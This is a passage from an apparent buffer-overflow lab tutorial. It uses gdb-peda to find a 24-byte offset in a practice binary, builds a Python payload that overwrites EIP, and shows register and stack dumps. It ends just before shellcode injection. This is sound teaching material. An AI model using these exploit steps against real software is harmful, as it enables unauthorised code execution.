     0008| 0xffffd650 ("EAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
    0012| 0xffffd654 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
    0016| 0xffffd658 ("AFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
    0020| 0xffffd65c ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
    0024| 0xffffd660 ("AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
    0028| 0xffffd664 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x44414128 in ?? ()
Calcaulate offset

    gdb-peda$ pattern_offset 0x44414128
    1145127208 found at offset: 24
Manually calculate
we have seen `lea eax,[ebp-0x14]`
0x14 = 20 in hexadecimal
20 + 4 ( saved ebp ) = 24

**Landing Shellcode**
Generating to payload_0.txt

    root@local:~/Desktop/Stack# python -c 'print "A"*24+"BBBB"+"C"*50' > payload_0.txt
run in gdb using payload_0

    root@local:~/Desktop/Stack# gdb -q ./stack_0
    Reading symbols from ./stack_0...(no debugging symbols found)...done.
    gdb-peda$ r < payload_0.txt
    Starting program: /root/Desktop/Stack/stack_0 < payload_0.txt
    AAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    ▒
    
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x51 ('Q')
    EBX: 0x41414141 ('AAAA')
    ECX: 0x5655a160 --> 0x41410af7
    EDX: 0xf7f8e890 --> 0x0
    ESI: 0xf7f8d000 --> 0x1d5d8c
    EDI: 0x0
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd648 ('C' <repeats 50 times>, <incomplete sequence \367>)
    EIP: 0x42424242 ('BBBB')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x42424242
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd648 ('C' <repeats 50 times>, <incomplete sequence \367>)
    0004| 0xffffd64c ('C' <repeats 46 times>, <incomplete sequence \367>)
    0008| 0xffffd650 ('C' <repeats 42 times>, <incomplete sequence \367>)
    0012| 0xffffd654 ('C' <repeats 38 times>, <incomplete sequence \367>)
    0016| 0xffffd658 ('C' <repeats 34 times>, <incomplete sequence \367>)
    0020| 0xffffd65c ('C' <repeats 30 times>, <incomplete sequence \367>)
    0024| 0xffffd660 ('C' <repeats 26 times>, <incomplete sequence \367>)
    0028| 0xffffd664 ('C' <repeats 22 times>, <incomplete sequence \367>)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x42424242 in ?? ()
We controlled eip in with 42424242 & 43 ( C ) values are landing on the stack. 
What is esp address ? `0xffffd648`
Let's go back to the stack and Inject shell code in C.
